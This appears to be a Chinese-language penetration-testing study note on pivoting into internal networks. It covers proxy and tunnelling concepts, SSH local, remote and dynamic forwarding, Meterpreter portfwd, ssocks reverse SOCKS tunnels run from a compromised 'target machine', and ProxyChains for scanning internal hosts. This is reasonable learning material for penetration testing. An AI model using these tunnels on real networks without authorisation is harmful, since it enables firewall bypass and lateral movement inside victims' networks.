

# 打通与内网机器的连接（待抓包）

## 1. 正反向代理、正反向连接、端口映射和端口转发

### 1.1 正反向代理

1. 代理由代理服务器担任。通信过程中有三方：客户端、服务端、代理服务器。
2. 正向代理就是代理服务器作为“客户端”的代理人，客户端发送请求，**由代理服务器去和服务端建立连接，同时代理服务器将结果返回给客户端。**正向代理可用于**隐藏客户端的真实 IP 地址**，访问被限制的内容，过滤和加速请求等。典型应用就是梯子。
3. 反向代理也就是代理服务器作为“服务器”的代理人。代表目标服务器执行请求。当客户端需要访问某个服务时，它**发送请求到反向代理服务器**，然后代理服务器将请求转发给目标服务器，并将响应返回给客户端。反向代理常用负载均衡、CDN、保护后端服务器和隐藏服务器身份等。渗透中反向用的多，这样可以**绕过防火墙拦截。**

### 1.2 正反向连接

1. 正向连接就是主动连接，客户端充当主动方，向服务器发起连接请求，然后服务器接受并处理请求。
2. 反向连接是指**目标系统（通常是受害者）主动建立**与控制系统或服务器的连接。反向连接通常用于合法的远程管理和控制，例如远程桌面会话、SSH远程管理等。在反向连接中，目标系统充当客户端，主动连接到远程服务器或控制服务器，以接受命令并将结果返回。

### 1.3 端口映射和端口转发

1. 端口映射和端口转发本质都是将一个端口的流量转送到另一个端口。
2. 端口映射在进行流量传递的时候没有对流量进行任何处理。
3. 而严格意义上的端口转发则是采用了 SSH，对流量进行加密后进行传递。
4. 端口映射常用于 NAT 技术，端口映射是 NAT 的一种，也叫 NAT Server，一般用于**外网对内网**的访问。
5. 端口转发一般称为**隧道**或**代理**。
6. 在维基上，两者似乎没什么区别：
    

## 2. SSH 的隧道技术

1. 网上教程很多，可以参考：

    > https://wangdoc.com/ssh/basic

    这里提一些细节。

2. 注意 SSH 和 SSL 的区别。SSH 是单独的技术，SFTP 用的就是 SSH，而 FTPS 用的是 SSL。

3. 注意 SSH 是有两种登录方式，一种是常见的口令登录，另一种是基于**公私钥**。客户端的公钥放在服务器上。使用[“挑战 - 应答”](https://www.endlessshw.top/2024/05/01/Cryptography/%E5%8C%97%E9%82%AE%E5%AF%86%E7%A0%81%E5%AD%A6%E9%9D%A2%E8%AF%95/#1-9-5-%E6%8C%91%E6%88%98-%E5%BA%94%E7%AD%94%E8%BA%AB%E4%BB%BD%E9%89%B4%E5%88%AB%E5%8D%8F%E8%AE%AE)的方式来验证身份，具体来讲，就是客户端用“私钥”**签名挑战**，服务端用“公钥”解密签名后对比数据。详见：

    > https://wangdoc.com/ssh/key

    这种方法有时候可以作为[突破口](https://www.endlessshw.top/2024/05/01/Network_Security/Vulnhub_Journey/Chapter6_Easy_EvilBox/Easy_EvilBox/#1-2-%E6%8B%BF%E5%88%B0-Shell-SSH-%E7%9A%84%E5%85%AC%E9%92%A5%E8%AE%A4%E8%AF%81%E4%BD%93%E7%B3%BB)。

### 2.1 SSH 常用的一些参数解释

1. `-C`：启用数据压缩，可能可以提高传输速度。
2. `-D`：表示动态转发，动态转发指的是，本机与 SSH 服务器之间创建了一个加密连接，然后本机内部针对某个端口的通信，都通过这个加密连接转发。它的一个使用场景就是，访问所有外部网站，都通过 SSH 转发。动态转发需要把本地端口绑定到 SSH 服务器。至于 SSH 服务器要**去访问哪一个网站，完全是动态的，取决于原始通信**，所以叫做动态转发。
3. `-f`：要求在执行命令前退至后台。它用于当准备询问口令或密语，但是用户希望它在后台进行。该选项**隐含了** `-n` 选项。
4. `-L`：本地端口转发，用于将**本地端口转发到远程**主机。
5. `-N`：不执行远程命令，只用于转发端口，常用于建立隧道。
6. `-n`：把 stdin 重定向到 `/dev/null` (实际上防止从 stdin 读取数据)。在后台运行时一定会用到这个选项。
7. `-q`：安静模式，消除所有的警告和诊断信息。
8. `-R`：**远程端口转发到本地**，也就是 `-L` 的反向。
9. `-T`：禁止分配伪终端。伪终端是什么：https://www.cnblogs.com/zzdyyy/p/7538077.html。

### 2.2 ssh 进行正反向转发/代理、动态转发的方式

1. 本来网上到处找博客来看，结果人家一个教程给你写的明明白白：

    > https://www.cainiaojc.com/ssh/ssh-port-forwarding.html

2. 结合他的说明，正向转发的命令就是：
    `ssh -fCNL 攻击机的本地端口:靶机 IP:靶机端口 攻击机 IP`。
    也就是说，发往攻击机本地端口的数据，被攻击机的 SSH 代理（正向代理）；此时 SSH 充当隧道/中介，将请求转发到靶机的目标端口。
    该条命令在攻击机上执行。
    如果要访问内网，应该在靶机上执行（TODO 待实践）：
    `ssh -fCNL 靶机的本地端口:内网靶机 IP:内网靶机端口 靶机 IP`。

3. 反向代理的命令就是：
    `ssh -fnqNTR 攻击机端口:内网靶机 IP:内网靶机端口 攻击机 IP`
    即把靶机内网端口的内容映射到攻击机的端口上，此时攻击机的端口就充当反向代理服务器。
    这条命令在靶机上执行。

4. 动态转发（正向）就是：
    `ssh -fnqNTD 攻击机 SOCKS 端口 靶机 IP`。
    攻击机执行，此时靶机充当 SSH 服务器，攻击机的端口和靶机之间建立加密连接，其内部使用 SOCKS5 协议，因此攻击机发往靶机/跳板的流量也必须是 SOCKS5 流量，所以这里还要使用 ProxyChain，用 SOCKS5 来代理其他流量。（TODO 但是不懂是不是单向的，看描述像是只能正向单向，如果单向的话，那用 SSOCKS 可能要更好）

5. 个人对于 SSH 的流量转发的理解是，正反向代理**转发任意流量**，包括但不限于 http、ftp 等等，但是**只能针对一个端口**。而动态转发采用的 SOCKS5，所以需要额外配置 ProxyChains，但是端口不限，所以可以用于 Nmap 等来扫描内网。

## 3. Portfwd 的隧道技术

### 3.1 前置条件

1. Portfwd 集成在 Meterpreter 中，在拥有 Meterpreter 的 Shell 下使用。

### 3.2 相关命令

1. 完整命令：
    `meterpreter > portfwd add -L 攻击机 ip -l 攻击机端口 -r 目标 ip -p 目标端口`。
2. 如果不指定 `-L`，默认就是 `0.0.0.0`，也就是攻击机 IP（上述命令在攻击机上执行）。
3. 目标 IP 一般就是内网 IP 了。

## 4. Ssocks 代理

1. Ssocks 工具用来建立一个使用 SOCKS 协议的隧道。

2. 下载地址：

    > http://sourceforge.net/projects/ssocks/

3. 安装：
    ```bash
    tar -zxvf ssocks-0.0.14.tar.gz
    cd ssocks-0.0.14
    ./configure && make
    ```

4. 攻击机/VPS 接收反弹过来的 SSOCKS：
    `./rcsocks -l 最终端口 -p 中转/隧道端口 -vv`

5. 靶机执行：
    `./rssocks -s 攻击机 ip:中转/隧道端口 -vv`

6. 以上创建了一个 SSOCKS5/4 的隧道，使用 ProxyChains 或者浏览器开启 SSocks 来发送流量，然后攻击机会再转发一次流量（和 frp 一样，我也不懂为啥最后还要再转发一下，即为什么需要两个端口）。

7. ProxyChains 配置：
    ```bash
    apt-get install proxychains
    vim /etc/proxychains.conf
    # 末尾写上 socks5 127.0.0.1 SOCKS 端口
    proxychains 其他工具的命令
    ```

    
